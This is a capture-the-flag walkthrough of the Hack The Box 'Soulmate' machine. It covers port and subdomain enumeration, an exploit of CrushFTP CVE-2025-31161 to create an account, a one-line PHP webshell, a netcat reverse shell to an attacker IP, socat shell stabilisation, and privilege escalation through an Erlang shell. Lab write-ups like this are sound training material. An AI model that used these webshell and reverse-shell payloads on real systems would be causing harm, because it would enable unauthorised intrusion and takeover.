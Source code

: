 ![Alt text for your image](images/image0.png)

# Soulmate HTB Walkthrough

This write-up documents the full exploitation process for the soulmate.htb machine, including reconnaissance, enumeration, exploitation, privilege escalation, and final root access.

-----

## 🔍 Reconnaissance

First, perform a full TCP port scan with Nmap to identify open services:

```bash
nmap -p- -Pn <target> -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && \
nmap -Pn <target> -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && \
nmap -T5 -Pn <target> -v --script vuln -oN nmap_vuln.txt
```

![Alt text for your image](images/image4.png)

-----

## 🌐 Web Enumeration

### Directory brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://soulmate.htb/FUZZ -s
```


![Alt text for your image](images/image14.png)

### Subdomain brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.84.47/ -H 'Host: FUZZ.soulmate.htb' -fs 154
```

![Alt text for your image](images/image20.png)

-----

## 📂 FTP Service (CrushFTP)

The domain `ftp.soulmate.htb` resolves to a CrushFTP web interface.


![Alt text for your image](images/image19.png)

The version string found:

```
11.W.657-2025_03_08_07_52
```


![Alt text for your image](images/image18.png)

This version is vulnerable to CVE-2025-31161:

[GitHub PoC – CVE-2025-31161](https://www.google.com/search?q=https://github.com/user/repo)

### Exploit usage:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```

![Alt text for your image](images/image6.png)


After exploitation, we can access with our new credentials:

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`


![Alt text for your image](images/image17.png)

Then we find the users and see that we can change their password, after checking i found that ben has access to the folder where the soulmate app is running so we exploit and login to that account

![Alt text for your image](images/image8.png)

![Alt text for your image](images/image5.png)


-----

-----

## ⚡ Web Shell Access

Upload a PHP webshell via ben's account to the webProd where we see the login.php, register.php:

```php
<?=`$_GET[0]`?>

```

![Alt text for your image](images/image17.png)

Then from the soulmate.htb webapp we see that we can rce

![Alt text for your image](images/image7.png)

Trigger a reverse shell:

```
http://soulmate.htb/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.15.30%204444%20%3E%2Ftmp%2Ff
```

![Alt text for your image](images/image15.png)


-----

## 🔧 Shell Stabilization

```bash
chmod +x socatx64.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

-----

## 📉 Deadend Enumeration

Some enumeration paths don’t yield privilege escalation.

We checked the config file where there was a hardcoded admin password

```
user: admin
pass: Crush4dmin990
```

![Alt text for your image](images/image21.png)

![Alt text for your image](images/image13.png)

But after logging in we didn't find anything useful and any path to escalate

![Alt text for your image](images/image12.png)



-----

## 📜 Privesc search with linpeas

![Alt text for your image](images/image22.png)

An interesting and process we found:

```bash
cat /usr/local/lib/erlang_login/start.escript
```
![Alt text for your image](images/image2.png)

So we took a look at the binary running:

![Alt text for your image](images/image11.png)


![Alt text for your image](images/image23.png)


-----

## 🔑 Credential Discovery

So we found the credentials and then we will exploit

```
user: ben
pass: HouseH0ldings998
```

We switch user successfully:

```bash
su ben
Password: HouseH0ldings998
```

## 🏁 User Flag

The user flag is captured.

![Alt text for your image](images/image1.png)

-----

## 🧪 Root Exploitation with Erlang

Then based on the script we ssh into the  localhost 2222 port, based on what the script was doing

![Alt text for your image](images/image3.png)


![Alt text for your image](images/image3.png)

We then discover a shell, after research i found that it is an erlang shelll and also learnt the syntax to execute on the machine

By experimenting with Erlang command execution:

![Alt text for your image](images/image9.png)

Final command for root flag:

```erlang
os:cmd("cat /root/root.txt").
```

-----

## ✅ Conclusion

We gained access through:

1.  **Enumeration** → Identified CrushFTP.
2.  **Exploitation** → CVE-2025-31161 for account creation.
3.  **Shell** → Uploaded PHP webshell.
4.  **Privilege Escalation** → Erlang `os:cmd/1` execution.
5.  Captured both `user.txt` and `root.txt`.
